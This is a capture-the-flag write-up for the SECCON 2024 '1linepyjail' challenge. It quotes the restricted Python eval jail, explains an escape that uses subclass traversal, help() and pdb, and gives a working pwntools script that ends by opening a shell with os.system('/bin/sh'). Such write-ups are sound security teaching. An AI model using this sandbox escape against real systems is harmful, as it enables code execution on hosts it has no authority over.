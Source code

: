 ## SECCON 2024 Quals 1linepyjail

```python
print(eval(code, {"__builtins__": None}, {}) if len(code := input("jail> ")) <= 100 and __import__("re").fullmatch(r'([^()]|\(\))*', code) else ":(")
```

Requirements:

1. Length <= 100: Try hard to reduce input length
2. Allow `()` but no parameters: Use `sys.modules["pdb"].set_trace()`
3. No builtins: Use `().__class__.__base__.__subclasses__()` to find `sys`

Steps:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `pdb` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__` and execute `sys.modules['pdb'].set_trace()`

Attack script:

```python
from pwn import *

context(log_level="debug")

# step 1. locate Helper and Printer
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline("().__class__.__base__.__subclasses__()".encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# step 2. call help() to load pdb module
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{helper_index}]()()"
    ).encode()
)
# load pdb and return to jail
p.sendline(b"pdb")
p.sendline(b"jail")
p.recvuntil(b"jail>")
# step 3. locate sys module and call `sys.modules['pdb'].set_trace()`
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['pdb'].set_trace()"
    ).encode()
)
# in pdb
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['os'].system('/bin/sh')"
    ).encode()
)
p.interactive()
```

